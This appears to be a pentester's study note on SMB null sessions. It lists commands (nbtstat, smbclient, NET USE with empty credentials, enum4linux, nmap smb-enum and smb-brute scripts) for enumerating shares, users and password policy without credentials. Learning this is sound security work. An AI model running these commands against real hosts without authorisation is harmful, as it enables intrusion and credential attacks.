 #Null Sessions-RCM 8/16/2021
#Can only be used for Windows shares (NetBIOS, SMB ports 137,138,139)
#Logging in without any credentals IPC$
#nbtstat command usage to enumerate windows targets

#Common example command to display info about a target
`nbtstat -A <IP>`
 - Name field=name of the machine
 - <00> record type= machine is a workstation
 - Type "UNIQUE" = computer only has one IP
 - <20> record type= file sharing service is up
  - meaning: gather more info about it
  - enumerate shares with `NET VIEW <target IP>`

#Nmblookup is the Linux utility version of nbtstat
`nmblookup -A <target IP>`
- Use smbclient to enumerate shares provided by the host (like NET VIEW in windows)
`smbclient -L //<target IP> -N`
 - -L = services; -N = force tool to not ask for a password
 - displays admin shares too!! (unlike NET VIEW)
#Exploiting IPC$ admin share (connect without valid creds)
`NET USE \\<target IP address>\IPC$ '' /u:''`
 - Tells Windows to connect to IPC$ share with empty username and password
#Checking for Null Sessions with Linux
`smbclient //10.130.40.80/IPC$ _N`
#Exploiting Null Sessions with Enum
`enum -S <IP>`
 - enumerates admin shares too.
`enum -U <IP>` 
 - enumerates the users
`enum -P <IP>`
 - checks password policy (good to mount network authentication attack)
#Exploiting Null Sessions with Winfo
`winfo <IP> -n`
 - -n tells utility to use null sessions
#Exploiting Null Sessions with Enum4Linux
 - user + share enum, group and member enum, password policy extraction, OS info detection, nmblookup run, printer info extraction
#Null sessions video + usage
`nmap -sS -p 135,139,445 192.168.102.0-255`
`enum4linux -n <targetip>`
Notice: File Server Service is <ACTIVE>
Run -P flag to enumerate password policy on the remote system.
`enum4linux -P <target IP>`
Run -S flag to enumerate the number of shares on the remote machine.
`enum4linux -S <target IP>`
If can't view shares with the above command ^ Use:
`enum4linux -s /usr/share/enum4linux/share-list.txt <target ip>`
Compiling all these commands...:
`enum4linux -a <target ip>`
Alternatively..NMAP FOR LYFE
`nmap -script=smb-enum-shares <target IP>`
Note: if vulnerable to NULL Sessions. `IPC$ Anonymous access: READ`
`nmap -script=smb-enum-users <target IP>`
Note: Users + password info
`nmap -script=smb-brute <target IP>`
Note: Valid user credentials
